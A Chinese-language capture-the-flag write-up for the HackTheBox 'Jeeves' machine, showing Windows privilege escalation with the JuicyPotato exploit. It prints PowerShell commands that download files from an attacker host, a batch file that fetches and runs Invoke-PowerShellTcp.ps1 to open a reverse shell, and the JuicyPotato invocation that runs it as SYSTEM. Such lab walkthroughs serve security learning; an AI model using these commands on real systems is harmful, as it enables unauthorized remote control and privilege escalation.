 使用的环境是：HackTheBox-Jeeves

Exp下载地址：<https://github.com/ohpe/juicy-potato>

首先检查为此用户启用的系统特权

![image-20211024112732458](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3c8cabbbaedc6efad25b89ef95badca2e66c22fe.png)

烂土豆可执行文件的要求

它需要 3 个强制参数

- **-t：**创建进程调用。对于这个选项，我们将使用\*来测试这两个选项。
- **-p：**要运行的程序。我们需要创建一个文件，将反向 shell 发送回我们的攻击机器。
- **-l：** COM 服务器监听端口。这可以是任何东西。我们将使用 3333

使用powershell快速上传

```php
(new-object net.webclient).downloadfile('http://10.10.14.40:5555/1.exe', 'C:\Users\kohsuke\desktop\1.exe')
```

![image-20210822181124649](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2696f0eb62e15511c9f2da39ee3f77eefb52b1d8.png)

我们使用`Invoke-PowerShellTcp.ps1`进行反弹shell

在脚本末尾添加

```php
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -Port 6666
```

kali上创建一个`shell.bat`文件，该文件下载`Invoke-PowerShellTcp.ps1` PowerShell脚本并运行它

```php
powershell -c iex(new-object net.webclient).downloadstring('http://x.x.x.x:5555/Invoke-PowerShellTcp.ps1')
```

目标机器上

```php
(new-object net.webclient).downloadfile('http://10.10.14.40:5555/shell.bat', 'C:\Users\kohsuke\desktop\shell.bat')
```

然后运行可执行文件

进行尝试获取模拟 SYSTEM 的令牌，然后以提升的权限运行我们的`shell.bat`文件

```php
./1.exe -t * -p shell.bat -l 3333
```

![image-20210822181920764](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e7b76f867a1f7daeb3ed6480be620f405b78c9c9.png)

![image-20210822182132356](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b66b662b76adc18b3be0e9dda5172ac1af186a2f.png)

### 后续
